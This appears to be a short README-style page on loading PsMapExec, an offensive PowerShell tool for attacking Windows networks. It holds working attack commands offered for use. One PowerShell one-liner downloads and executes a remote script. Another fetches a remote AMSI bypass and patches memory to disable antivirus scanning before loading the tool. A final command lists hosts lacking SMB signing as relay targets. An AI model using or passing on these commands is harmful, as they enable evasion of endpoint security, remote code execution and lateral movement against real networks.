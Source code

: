 Here you can load PsMapExec :

This will automatically blocked by your AV
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

Bypass AMSI and load PsMapExec :)
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);$hexString = "4831C0";$3b = [Byte[]]::new($hexString.Length / 2);for ($i = 0; $i -lt $hexString.Length; $i += 2) {$3b[$i / 2] = [Convert]::ToByte($hexString.Substring($i, 2), 16)};[System.Runtime.InteropServices.Marshal]::Copy($3b, 0, $alamat, $3b.Length);$vp.Invoke($alamat, $3b.Length, 0x20, [ref]$tua);Start-sleep -s 3;iex(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

You can start by check SMB signing
```
PsMapExec -Targets All -Method GenRelayList
```



